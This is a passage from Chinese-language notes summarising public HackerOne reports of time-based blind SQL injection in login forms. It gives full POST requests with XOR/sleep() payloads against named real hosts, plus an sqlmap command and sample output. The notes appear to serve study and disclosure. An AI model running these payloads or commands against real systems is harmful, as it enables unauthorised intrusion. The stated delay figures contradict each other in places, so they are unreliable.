      **关键特征**：响应时间固定延迟 **10 秒**，确认漏洞存在。

### 11. 登录口 | POST | Mysql | 时间盲注

[Acronis | Report #1224660 - bypass sql injection #1109311 | HackerOne](https://hackerone.com/reports/1224660)

1. **手动验证（时间盲注）**

   - **Payload 构造**：

     ```
     POST /wp-login.php HTTP/2
     Host: www.acronis.cz
     ...
     log=0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z&pwd=...
     ```

   - **关键特征**：

     - 当 `sleep(10)` 注入时，响应时间固定延迟 **12 秒**（与网络波动无关）。
     - 其他 `sleep` 参数（如 `sleep(3)`）同样呈现严格时间关联性（见 PoC 截图 {F1335267}）。

2. **自动化验证（sqlmap）**

   - **命令示例**：

     ```
     sqlmap -u "https://www.acronis.cz/wp-login.php" --data="log=test&pwd=123" -p log --dbms=mysql --technique=T
     ```

   - **预期结果**：

     ```
     Type: time-based blind
     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
     Payload: log=test' AND (SELECT 1234 FROM (SELECT(SLEEP(10)))qQlQ) AND 'a'='a&pwd=123
     ```

### 12. 登录口 | POST | Mysql | 时间盲注

[MTN Group | Report #1069531 - Blind SQL Injection | HackerOne](https://hackerone.com/reports/1069531)

1. **手动验证（时间盲注）**

   - **Payload 构造**：

     ```
     POST /signin/ HTTP/1.1
     Host: futexpert.mtngbissau.com
     ...
     phone_number=0'XOR(if(now()=sysdate(),sleep(12),0))XOR'Z&pin=1&submit=Continuar
     ```

   - **关键特征**：
